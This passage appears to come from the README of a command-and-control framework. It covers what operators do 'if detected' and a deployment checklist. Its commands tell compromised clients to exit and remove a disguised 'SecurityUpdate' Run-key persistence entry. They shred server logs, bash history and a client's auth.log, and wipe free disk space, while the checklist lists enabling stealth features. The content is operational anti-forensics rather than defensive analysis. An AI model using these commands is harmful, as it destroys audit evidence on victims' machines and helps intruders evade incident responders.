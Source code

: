 ## 🚨 Incident Response

### **If Detected**
```bash
# 1. Clean shutdown
C2> exec all_clients !exit

# 2. Remove persistence
C2> exec all_clients reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /f

# 3. Clear logs
rm -f /var/log/c2_server.log
./c2_client --uninstall
```

### **Evidence Cleanup**
```bash
# Server cleanup
shred -vfz -n 3 c2_server.log
rm -rf /var/lib/c2/
rm -f ~/.bash_history

# Client cleanup (Windows)
sdelete -p 3 -s -z C:\Temp\
cipher /w:C:\

# Client cleanup (Linux)
shred -vfz -n 3 /var/log/auth.log
dd if=/dev/zero of=/tmp/zero bs=1M count=1000; rm /tmp/zero
```

## 📋 Deployment Checklist

### **Pre-Deployment**
- [ ] Legal authorization obtained
- [ ] Test environment validated
- [ ] All components compiled and tested
- [ ] Network infrastructure prepared
- [ ] Monitoring systems ready
- [ ] Incident response plan prepared

### **Deployment**
- [ ] Server deployed and secured
- [ ] Firewall rules configured
- [ ] SSL/TLS certificates installed (if using HTTPS)
- [ ] Client deployment method selected
- [ ] Initial connectivity verified
- [ ] Stealth features enabled
